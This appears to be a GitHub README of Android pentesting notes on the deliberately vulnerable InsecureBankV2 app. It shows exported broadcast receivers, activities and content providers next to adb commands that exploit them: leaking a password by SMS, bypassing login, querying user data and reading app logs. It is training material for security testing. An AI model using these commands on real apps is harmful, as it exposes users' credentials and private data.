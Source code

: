 - [Manifest](#Mainfest)
  - [Debug Mode](#Debug)
  - [Backup](#Backup)
  - [External Storage](#External_Storage)
  - [Permissions](#Permissions)
- [Broadcast Receiver](#BroadcastReceiver)
  - [Broadcast Receiver Discription](#Broadcast_receiver_description)
  - [Exported Broadcast Receiver](#Exported_broadcast_receiver)
    - [Broadcast Receiver AndroidManifest declaration](#BR_AndroidManifest.xml)
    - [Broadcast Receiver method code implementation](#BR_method_code)
    - [ADB Broadcast Receiver exploitation](#adb_BR_exploitaion)
- [Activity](#Activity)
  - []()
  - []()
  - [Exported Activity Bypassing](#Exported_activity_bypassing)
    - [Manifset](#Manifset)
- [Intents](#Intents)
  - [Intent Sniffing](#Intent_sniffing)
    - [Intent AndroidManifest declaration](#Intent_AndroidManifest.xml)
    - [Intent method code implementation](#Intent_implementation)
    - [Create intent exploitation application](#Create_intent_exploitation_app)
- [Content Provider](#Content_provider)
  - [Content Provider Discription](#Content_Provider_Discription)
  - [Exported Content Provider](#Exported_content_provider)
    - [Content Provider AndroidManifest declaration](#CP_AndroidManifest.xml)
    - [Content Provider method code implementation](#CP_method_code)
    - [ADB Content Provider exploitation](#adb_CP_exploitaion)
- [Insecure Logging](#Insecure_Logging)
  - [logcat](#logcat)

# Manifest

## Debug

## Backup
------------------------------------------------------------------------------------------------------------------------
# BroadcastReceiver

## Broadcast_receiver_description
Broadcast receivers are designed to listen to system wide events called broadcasts (e.g. network activity, application updates, etc.) and then trigger something if the broadcast message matches the current parameters inside the Broadcast Receiver

## Exported_broadcast_receiver

### BR_AndroidManifest.xml
```
<receiver android:name="com.android.insecurebankv2.MyBroadCastReceiver" android:exported="true">
            <intent-filter>
                <action android:name="theBroadcast"/>
            </intent-filter>
        </receiver>
```
### BR_method_code
```
public void onReceive(Context context, Intent intent) {
        String phn = intent.getStringExtra("phonenumber");
        String newpass = intent.getStringExtra("newpass");
        if (phn != null) {
            try {
                SharedPreferences settings = context.getSharedPreferences("mySharedPreferences", 1);
                this.usernameBase64ByteString = new String(Base64.decode(settings.getString("EncryptedUsername", null), 0), "UTF-8");
                String decryptedPassword = new CryptoClass().aesDeccryptedString(settings.getString("superSecurePassword", null));
                String textPhoneno = phn.toString();
                String textMessage = "Updated Password from: " + decryptedPassword + " to: " + newpass;
                SmsManager smsManager = SmsManager.getDefault();
                System.out.println("For the changepassword - phonenumber: " + textPhoneno + " password is: " + textMessage);
                smsManager.sendTextMessage(textPhoneno, null, textMessage, null, null);
            } catch (Exception e) {
                e.printStackTrace();
            }
        } else {
            System.out.println("Phone number is null");
        }
    }
```
### adb_BR_exploitaion
```
am broadcast -a theBroadcast -n com.android.insecurebankv2/com.android.insecurebankv2.MyBroadCastReceiver –es phonenumber 0123456789 –es newpass Test_pass123!
```
-------------------------------------------------------------------------------------------------------------------------------
# Activity

## Exported_activity_bypassing

### Manifset
```
<activity android:label="@string/title_activity_post_login" 
android:name="com.android.insecurebankv2.PostLogin" android:exported="true"/>

Bypassing: adb shell am start -n com.android.insecurebankv2/com.android.insecurebankv2.PostLogin
```
-------------------------------------------------------------------------------------------------------------------------------
# Intents

## Intent_sniffing

### Intent_AndroidManifest.xml
```
<receiver android:name="com.android.insecurebankv2.MyBroadCastReceiver" android:exported="true">
 <intent-filter>
      <action android:name="theBroadcast"/>
  </intent-filter>
</receiver>
```
### Intent_implementation
```
public void onReceive(Context context, Intent intent) {
        String phn = intent.getStringExtra("phonenumber");
        String newpass = intent.getStringExtra("newpass");
        if (phn != null) {

private void broadcastChangepasswordSMS(String phoneNumber, String pass) {
        if (TextUtils.isEmpty(phoneNumber.toString().trim())) {
            System.out.println("Phone number Invalid.");
            return;
        }
        Intent smsIntent = new Intent();
        smsIntent.setAction("theBroadcast");
        smsIntent.putExtra("phonenumber", phoneNumber);
        smsIntent.putExtra("newpass", pass);
        sendBroadcast(smsIntent);
    }
```
### Create_intent_exploitation_app
-------------------------------------------------------------------------------------------------------------------------------
# Content_Provider

## Content_Provider_Discription
Content providers are used to share app data with other applications, which is normally stored inside a database or file.

## Exported_content_provider

### CP_AndroidManifest.xml
```
provider android:name="com.android.insecurebankv2.TrackUserContentProvider" android:exported="true" android:authorities="com.android.insecurebankv2.TrackUserContentProvider"/>
```
### CP_method_code
```
static final String URL = "content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers";
static final String name = "name";
```
### adb_CP_exploitaion
```
content query --uri content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers    
```
-------------------------------------------------------------------------------------------------------------------------------
# Insecure_Logging

## logcat
```
adb logcat | grep "$(adb shell ps | grep [app.package.name]  | awk '{print $2}')"
```
